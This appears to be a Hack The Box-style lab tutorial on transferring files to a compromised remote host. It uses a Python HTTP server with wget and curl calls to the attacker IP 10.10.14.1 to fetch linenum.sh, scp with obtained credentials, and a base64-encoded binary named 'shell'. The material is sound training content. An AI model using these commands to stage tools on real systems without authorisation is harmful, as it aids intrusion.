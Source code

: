 # Transferring Files

## Using wget

First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

    MBWest@htb[/htb]$ cd /tmp
    MBWest@htb[/htb]$ python3 -m http.server 8000

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

    user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

### Using cURL

Note that we used our IP `10.10.14.1` and the port our Python server runs on `8000`. If the remote server does not have wget, we can use cURL to download the file:

    user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

Note that we used the -o flag to specify the output file name.

## Using SCP

Another method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

    MBWest@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

    user@remotehost's password: *********
    linenum.sh

## Using base64

In some cases, we may not be able to transfer the file. For example, if we wanted to transfer a binary file called `shell`, we can `base64` encode it as follows:

    MBWest@htb[/htb]$ base64 shell -w 0

Now, we can copy this `base64` string, go to the remote host, and use `base64` `-d` to decode it, and pipe the output into a file:

    user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell

## Validating File Transfers

To validate the format of a file, we can run the `file` command on it:

    user@remotehost$ file shell
    shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header

As we can see, when we run the `file` command on the `shell` file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run `md5sum` on it:

  
    MBWest@htb[/htb]$ md5sum shell

    321de1d7e7c3735838890a72c9ae7d1d shell

Now, we can go to the remote server and run the same command on the file we transferred:
  
    user@remotehost$ md5sum shell

    321de1d7e7c3735838890a72c9ae7d1d shell